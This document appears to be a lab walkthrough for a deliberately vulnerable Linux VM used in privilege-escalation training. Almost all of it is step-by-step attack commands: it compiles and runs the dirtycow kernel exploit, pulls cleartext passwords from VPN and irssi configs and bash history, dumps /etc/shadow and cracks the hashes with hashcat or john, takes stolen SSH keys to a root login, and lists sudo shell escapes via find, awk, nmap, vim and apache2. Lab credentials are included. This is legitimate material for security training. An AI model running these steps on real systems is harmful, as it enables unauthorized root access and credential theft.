 <img src = https://i.imgur.com/5pWQzP0.png>

# Linux PrivEsc Arena


## ssh 

```
username: TCM
password: Hacker123
```

## 1. Kernel Exploits 


**Detection**

Linux VM

1. In command prompt type:
```/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh ```
2. From the output, notice that the OS is vulnerable to “dirtycow”.

**Exploitation**

Linux VM

1. In command prompt type:
```gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w ```
2. In command prompt type: ```./c0w ```

*Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.*

3. In command prompt type: ```passwd ```
4. In command prompt type: ```id ```

From here, either copy /tmp/passwd back to /usr/bin/passwd or reset your machine to undo changes made to the passwd binary


## 2. Stored Passwords (Config Files) 

**Exploitation**

Linux VM

1. In command prompt type: ```cat /home/user/myvpn.ovpn ```
2. From the output, make note of the value of the “auth-user-pass” directive.
3. In command prompt type: ```cat /etc/openvpn/auth.txt ```
4. From the output, make note of the clear-text credentials.
5. In command prompt type: ```cat /home/user/.irssi/config | grep -i passw ```
6. From the output, make note of the clear-text credentials.

## 3.  Stored Passwords (History)

**Exploitation**

Linux VM
1. In command prompt type: ```cat ~/.bash_history | grep -i passw ```
2. From the output, make note of the clear-text credentials.



## 4. Weak File Permissions 

Linux VM

1. In command prompt type: ```cat /etc/passwd ```
2. Save the output to a file on your attacker machine
3. In command prompt type: ```cat /etc/shadow ```
4. Save the output to a file on your attacker machine

Attacker VM

1. In command prompt type: ```unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt ```

Now, you have an unshadowed file.  We already know the password, but you can use your favorite hash cracking tool to crack dem hashes.  For example:

```hashcat -m 1800 unshadowed.txt rockyou.txt -O ```

## 5. SSH Keys 

**Detection**

Linux VM

1. In command prompt type:
```find / -name authorized_keys 2> /dev/null ```
2. In a command prompt type:
```find / -name id_rsa 2> /dev/null ```
3. Note the results.

Exploitation

Linux VM

1. Copy the contents of the discovered id_rsa file to a file on your attacker VM.

Attacker VM

1. In command prompt type: ```chmod 400 id_rsa ```
2. In command prompt type: ```ssh -i id_rsa root@<ip> ```

You should now have a root shell :)

## 6. Sudo (Shell Escaping) 

**Detection**

Linux VM

1. In command prompt type: ``sudo -l ```
2. From the output, notice the list of programs that can run via sudo.

**Exploitation**

Linux VM

1. In command prompt type any of the following:
a. ```sudo find /bin -name nano -exec /bin/sh \; ```
b. ```sudo awk 'BEGIN {system("/bin/sh")}' ```
c. ```echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse ```
d. ```sudo vim -c '!sh' ```



## 7. Sudo (Abusing Intended Functionality)

**Detection**

Linux VM

1. In command prompt type: ```sudo -l ```
2. From the output, notice the list of programs that can run via sudo.

**Exploitation**

Linux VM

1. In command prompt type:
```sudo apache2 -f /etc/shadow ```
2. From the output, copy the root hash.

Attacker VM

1. Open command prompt and type:
```echo '[Pasted Root Hash]' > hash.txt ```
2. In command prompt type:
```john --wordlist=/usr/share/wordlists/nmap.lst hash.txt ```
3. From the output, notice the cracked credentials.


































